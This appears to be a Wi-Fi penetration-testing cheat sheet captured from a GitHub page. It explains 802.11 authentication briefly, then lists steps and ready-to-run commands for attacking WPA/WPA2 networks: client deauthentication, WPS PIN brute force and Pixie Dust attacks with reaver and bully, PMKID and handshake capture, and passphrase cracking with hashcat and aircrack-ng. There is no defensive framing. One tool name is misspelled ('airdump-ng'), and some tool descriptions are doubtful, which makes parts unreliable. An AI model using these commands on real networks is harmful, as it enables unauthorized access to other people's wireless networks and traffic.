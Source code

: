 ### 802.11 Sniffing WPA/WPA2 with PSK - 802.11 authentication is a process whereby the access point either accepts or rejects the identity of a radio NIC. The NIC begins the process by sending an authentication frame containing its identity to the access point. With open system authentication (the default), the radio NIC sends only one authentication frame, and the access point responds with an authentication frame as a response indicating acceptance (or rejection). Beacon frames are transmitted periodically to announce the presence of a wireless network and contain all information about it(data rates, channels, security ciphers, key management, etc.).

WPA/WPA2 Attack Process:
  1. Start and Deauthenticate with WPA/WPA2 Protected WLAN client by using WLAN tools Such as Hotspotter, Airsnarf, Karma, etc.
  2. If the Client is Deaauthenticated, then sniff the traffic and check the status of captured EAPOL Handshake.
  3. If the client is not Deauthenticate then do it again.
  4. Check whether the EAPOL handshake is captured or Not.
  5. Once you captured the EAPOL handshake, then perform a PSK Dictionary attack using coWPAtty, Aircrack-ng to gain confidential information.
  6. Add Time-memory trade-off method (Rainbow tables) also known as WPA-PSK Precomputation attack for cracking WPA/2 passphrase. Genpmk can be used to generate pre-computed hashes.
  7. If it’s Failed then Deauthenticate again and try to capture again and redo the above steps.

WPS PIN Attack:
    Known PINs + Generation Algorithms
      $ airgeddon.sh (Known PINs database based attack)
  
    WPS PIN Bruteforce (online)
      $ reaver -i mon0 -b <MAC_AP> -c <channel> -f -N [-L -d 2] -vv
      $ bully mon0 -b <MAC_AP> -c <channel>  -S -F -B -v 3
  
    WPS Pixie Dust Attack (offline)
      $ reaver -i mon0 -b <MAC_AP> -c <channel> -K -N -vv
      $ bully mon0 –b <MAC_AP> -d -v 3
  
    Null PIN attack
      $ reaver -i mon0 -b <MAC_AP> -c <channel> -f -N -g 1 -vv -p ''

  All above commands can be automated using: wifite --wps-only [--bully]

PMKID Capture (client-less) & Cracking:
      $ hcxdumptool -i mon0 -o capture.pcapng --enable_status=1 -c <channel>
      $ hcxpcaptool -E essidlist -I identitylist -U usernamelist -z capture.16800 capture.pcapng
      $ hashcat -m 16800 capture.16800 -a 0 -w 4 <wordlist>

  All above commands can be automated using: wifite --pmkid [--pmkid-timeout <sec>]

Handshake Capture (req. client) & Cracking:
      $ airdump-ng -c <channel> --bssid <AP_MAC> -w <capture> mon0
      $ aircrack-ng -a 2 -b <AP_MAC> -w  <wordlist> <capture>
      
  All above commands can be automated using: wifite --wpa [-dict <wordlist>]  
